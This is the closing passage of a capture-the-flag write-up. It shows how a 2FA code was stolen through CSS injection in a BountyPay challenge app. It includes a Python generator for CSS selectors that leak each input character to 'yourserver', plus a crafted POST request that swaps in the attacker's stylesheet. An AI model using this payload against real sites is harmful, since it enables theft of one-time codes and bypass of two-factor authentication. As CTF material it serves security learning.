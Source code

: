 # Finishing touch | CSS data exfiltration: 

After we get the credentials we needed, we just log in and see the transactions at May 2020, and make a payment, But there is a 2FA you need to solve to make a payment which gets you the flag, by looking at the proxy logs on burp we can see that the request loads a CSS file where if you replace the link with your server you get a pingback to your server with the `user-agent: headless chrome`, so we can load our own CSS file which has a popular attack vector for data exfiltration [reference](https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense)
so you need to host your own CSS on your server, by finding out the element manually, and then you can use a simple script to generate a CSS file for you for example: 
```python
import string
def get_css_block(id, char):
    return "input[name=" + str(id) + "][value=\"" + str(char) + "\"] ~ *{\n    background-image: url(https://yourserver/exfil_" + str(id) + "/" + str(char) + ");\n}\n"

with open("uni_2fa_style.css", "a") as css_file:
    codes = ['code_1', 'code_2', 'code_3', 'code_4', 'code_5', 'code_6']
    letters = ''.join([chr(i) for i in range(33, 128)])
    for code in codes:
        for letter in letters:
            css_file.write(get_css_block(code, letter))
```

so you click on the send challenge button and then modify the request like the following: 
```
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Content-Length: 42
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9

app_style=https%3A%2F%2FYOURSERVER%2FLOCATION%2FTO%2FCSS
```
and there are the characters of the 2FA code flowing in:
{F853110}
I got from 4-6 characters while doing this multiple times so I used yurbo intruder to get the last one, and that reveals the flag for us: 
{F853115}
